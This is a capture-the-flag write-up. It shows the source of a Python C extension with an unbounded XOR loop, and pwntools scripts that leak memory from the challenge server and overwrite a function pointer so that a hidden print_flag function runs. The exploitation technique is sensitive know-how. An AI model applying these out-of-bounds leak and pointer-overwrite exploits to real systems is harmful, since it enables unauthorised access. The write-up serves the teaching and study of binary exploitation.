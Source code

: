 # Turbo crypto part 2

Category: Pwn

Points: 900

Solves: 1

> Using the key you extracted, we found a [link](https://drive.google.com/uc?id=19mmImjpreALZSs0D88BtLY65cFBkHsMC&export=download) to the source code for `turbofastcrypto`. There happens to be a secret `flag` file on the server, and you need to extract it.

The authors generously decided to place a first blood bounty of 1 month of discord nitro on this challenge :heart:.

The source code contains a `turbofastcrypto.c` (reproduced below), a shared object (which I had no experience pwning) and a bunch of other files which were mostly setup files.

```c
#define PY_SSIZE_T_CLEAN
#include <Python.h>

char IV[64] = "IRS{secrets_are_revealed!!}";

#pragma GCC optimize ("O0")
__attribute__ ((used)) static void print_flag() { system("cat flag"); }

static PyObject *encrypt(PyObject *self, PyObject *args) {
    const char *cmd;
    Py_ssize_t len;
    if (!PyArg_ParseTuple(args, "s#", &cmd, &len)) return NULL;
    for (int i = 0; i < len; i++) IV[i] ^= cmd[i];
    return PyBytes_FromStringAndSize(IV, len);
}

static PyMethodDef mtds[] = {
    {"encrypt", encrypt, METH_VARARGS, "Encrypt a string" },
    { NULL, NULL, 0, NULL }
};

static struct PyModuleDef moddef = {
    PyModuleDef_HEAD_INIT,
    "turbofastcrypto", 
    NULL,
    -1,
    mtds
};

PyMODINIT_FUNC PyInit_turbofastcrypto() { return PyModule_Create(&moddef);}
```

This code looks really intimidating (probably the hard part of this challenge). It defines a python C extension, which is built into a shared object, which is then loaded into the CPython runtime, so python code can call these functions.

At first, I thought the bug was some kind of improper use of the cpython functions `PyArg_ParseTuple` and `PyBytes_FromStringAndSize` but according to the documentation they seem to be used correctly.

The `for` loop was much more interesting though. Each character of the user's input is XORed with the IV array and stored back to the IV array. However, there is no bounds checking here, so if the user's input is longer than the size of IV (64 bytes), we could leak, and potentially write memory!

I wrote a small script to leak memory:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
p.sendline(bytes(arr))
p.recvuntil("Encrypted:")
# probably should use safeeval but whatever
l = eval(p.recvline())
print(hexdump(l))
```

As expected, we see the flag, then a bunch of memory addresses.

![image-20211227072236432](./images/dump.png)

If you run this a few times, you'll find that the leak addresses are different every time, except for the first byte (the LSB, things are little endian here) ~~(and also the second digit of the second byte but that's not important)~~. This is probably due to PIE or some other kind of ASLR for shared objects, which randomizes the addresses of functions. Anyway, I ran `objdump -d <the shared object>` to find out what these functions were:

![image-20211227072656684](./images/objdump.png)

Hmmm, the `encrypt` function ends in `0xc0`, which is exactly the same as the leaked address we saw earlier! And the `print_flag` function's address only differs by 1 byte! If we're able to modify the `0xc0` to `0xa0` we can (hopefully) get the `print_flag` function to be called.

We can do this by XORing the 72nd byte (the location of the first `0xc0`) with 96, since `0xc0 ^ 96 = 160 = 0xa0`. Fortunately, 96 is within the ASCII range, so it shouldn't have any issues.

I made slight modifications to the script to set the 72nd byte:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
arr[72] = 96
p.sendline(bytes(arr))
p.interactive()
```

When I ran the script, nothing happened and I was really worried that I had messed up somewhere. However, when I pressed enter, the script sent the flag. I realized that instead of overwriting the return pointer, I had overwritten some kind of function table that cpython uses to jump to the C extensions. When the function is executed again, the `print_flag` function is called instead of the `encrypt` function. However, the program crashes afterwards with the error:

```
Traceback (most recent call last):
  File "./tfc.py", line 4, in <module>
    ciphertext = turbofastcrypto.encrypt(plaintext)
SystemError: <built-in function encrypt> returned NULL without setting an error
```

which is completely expected and ok since I've already gotten the flag.

## Comments

I actually got really confused when writing this writeup cos I saw `0x0c` as `0xc0` and thought the writeup was 64. During the CTF I used `.index` to find the writeup so it was fine. I also got the chance to use the really useful pwntools `hexdump` function, which was cool.

Thanks again to the authors for this great challenge and the nitro!